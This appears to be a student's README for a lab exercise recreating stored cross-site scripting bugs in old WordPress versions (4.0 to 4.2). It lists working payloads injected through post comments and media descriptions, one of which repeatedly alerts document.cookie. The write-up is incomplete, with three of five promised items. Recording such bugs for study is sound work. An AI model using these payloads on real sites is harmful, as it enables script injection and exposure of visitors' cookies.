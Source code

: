 # README

Time Spent: 4 hours in total

Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

XXS

  - [ ] Summary: 
  
      I am using XSS with WP 4.2, which was fixed in version 4.2.1.
  - [ ] GIF Walkthrough:![](https://i.imgur.com/xslxj31.gif)
  - [ ] Steps to Recreate:
  
     You have to comment on a post and insert the following into a comment: 
     
     <a title='x onmouseover=alert(unescape(/hello%20world/.source))          style=position:absolute;left:0;top:0;width:5000px;height:5000px <You will then insert 64,000 of a character and hit comment>
  - [ ] Affected Source Code: 
        None
  
  
XXS

  - [ ] Summary:
  
  I am using XSS with WP 4.2, which was fixed in version 4.7.3.
  - [ ] GIF Walkthrough: ![](https://i.imgur.com/uDAam90.gif)
  - [ ] Steps to Recreate:
  
        1. Create a media post 
        
        2. Add  "filename <script>alert("Exploit 3 Successful");</script>" to the desciption (include the quotes)
        
        3. Then click view attachment page and the alert box will pop up
  - [ ] Affected Source Code:
        None
  
  
  XXS

  - [ ] Summary:
 
  I am using XSS with WP 4.0, which was fixed in version 4.2.
  - [ ] GIF Walkthrough:![](https://imgur.com/fe79b5e2-b00c-4af3-ad81-42f60001cad9)
  - [ ] Steps to Recreate:
  
  You post the following into a comment on a post: <script>while(1){alert(document.cookie);}<script>
  - [ ] Affected Source Code:
        None

